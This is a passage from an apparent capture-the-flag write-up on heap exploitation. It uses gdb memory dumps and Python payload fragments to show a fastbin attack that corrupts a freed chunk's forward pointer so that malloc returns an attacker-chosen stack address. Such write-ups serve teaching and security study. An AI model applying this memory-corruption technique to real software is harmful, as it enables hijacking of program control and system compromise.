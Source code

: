 ```
gdb-peda$ x/10gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021
0x555555758430: 0x00007fffffffeceb      0x0000000000000000
0x555555758440: 0x0000000000000000      0x000000000001fbc1
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000000
```

## fastbin-attack, forging-chunk
In simple form, we will corrupt FD pointer to trick malloc serving us a controlled pointer. We have stack address leak, so it should be good destination for this. 
```
gdb-peda$ x/10gx 0x00007fffffffecd0
0x7fffffffecd0: 0x00000000ffffecfe      0x0000000000000021
0x7fffffffece0: 0x00002aaaaacf3830      0x65636f7247554910
0x7fffffffecf0: 0x006d657449207972      0x4226f8d697e7ba00
0x7fffffffed00: 0x0000555555555380      0x00002aaaaacf3830
0x7fffffffed10: 0x0000000000000001      0x00007fffffffede8
```
welp. Right off the bat, `0x7fffffffecd0` should be good enough, beacause the it passes the request size check for `__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0)`.
```
    add_empty(1, 4)
	remove_item(1)
	remove_item(1)

gdb-peda$ x/20gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021 <- item 0
0x555555758430: 0x0000000000000000      0x0000000000000000
0x555555758440: 0x0000000000000000      0x0000000000000021 <- item 1, already free
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000021 <- item 2, free
0x555555758470: 0x0000555555758440      0x0000000000000000 # FD
0x555555758480: 0x0000000000000000      0x0000000000000021 <- item 3
0x555555758490: 0x0000000000000000      0x0000000000000000
0x5555557584a0: 0x0000000000000000      0x000000000001fb61

    payload  = p64(0) * 3
    payload += p64(0x21)
    payload += p64(0) * 3
    payload += p64(0x21)
    payload += p64(stack - 0x1b)
    edit_item(0, payload)

gdb-peda$ x/20gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021 <- item 0
0x555555758430: 0x0000000000000000      0x0000000000000000
0x555555758440: 0x0000000000000000      0x0000000000000021 <- item 1, already free
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000021 <- item 2, free
0x555555758470: 0x00007fffffffecd0      0x0000000000000000 # FD corrupted
0x555555758480: 0x0000000000000000      0x0000000000000021 <- item 3
```
So, after this the next allocation for items should have our controlled pointer,
```
    add_empty(1, 2)

gdb-peda$ x/10gx 0x555555554000+0x202040
0x555555756040: 0x0000555555758430      0x0000555555758490
0x555555756050: 0x0000555555758470      0x00007fffffffece0 <- controlled !!
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
0x555555756080: 0x0000000000000000      0x0000000000000000
```